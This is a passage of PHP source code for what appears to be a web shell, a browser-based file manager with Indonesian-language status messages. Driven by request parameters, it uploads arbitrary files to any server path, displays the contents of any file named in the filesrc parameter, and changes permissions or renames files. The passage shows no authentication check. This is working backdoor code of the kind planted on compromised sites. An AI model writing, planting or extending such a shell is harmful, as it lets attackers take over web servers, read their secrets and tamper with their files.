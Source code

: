 ```
}

$path = str_replace('\\','/',$path);
$paths = explode('/',$path);

foreach($paths as $id=>$pat){
if($pat == '' && $id == 0){
$a = true;
echo '<a href="?path=/">/</a>';
continue;
}
if($pat == '') continue;
echo '<a href="?path=';
for($i=0;$i<=$id;$i++){
echo "$paths[$i]";
if($i != $id) echo "/";
}
echo '">'.$pat.'</a>/';
}
echo '</td></tr><tr><td>';
if(isset($_FILES['file'])){
if(copy($_FILES['file']['tmp_name'],$path.'/'.$_FILES['file']['name'])){

echo '<font color="green">File Ter-Upload :* </font><br />';
}else{
echo '<font color="red">Upload gagal, Servernya kek <img src="http://c.fastcompany.net/asset_files/-/2014/11/11/4F4.gif"/>
 </font><br />';
}
}
echo '<form enctype="multipart/form-data" method="POST">
Upload File : <input type="file" name="file" />
<input type="submit" value="upload" />
</form>
</td></tr>';
if(isset($_GET['filesrc'])){
echo "<tr><td>Current File : ";
echo $_GET['filesrc'];
echo '</tr></td></table><br />';
echo('<pre>'.htmlspecialchars(file_get_contents($_GET['filesrc'])).'</pre>');
}elseif(isset($_GET['option']) && $_POST['opt'] != 'delete'){
echo '</table><br /><center>'.$_POST['path'].'<br /><br />';
if($_POST['opt'] == 'chmod'){
if(isset($_POST['perm'])){
if(chmod($_POST['path'],$_POST['perm'])){
echo '<font color="green">Change Permission Done.</font><br />';
}else{
echo '<font color="red">Change Permission Error.</font><br />';
}
}
echo '<form method="POST">
Permission : <input name="perm" type="text" size="4" value="'.substr(sprintf('%o', fileperms($_POST['path'])), -4).'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="chmod">
<input type="submit" value="Go" />
</form>';
}elseif($_POST['opt'] == 'rename'){
if(isset($_POST['newname'])){
if(rename($_POST['path'],$path.'/'.$_POST['newname'])){
echo '<font color="green">Change Name Done.</font><br />';
}else{
echo '<font color="red">Change Name Error.</font><br />';
```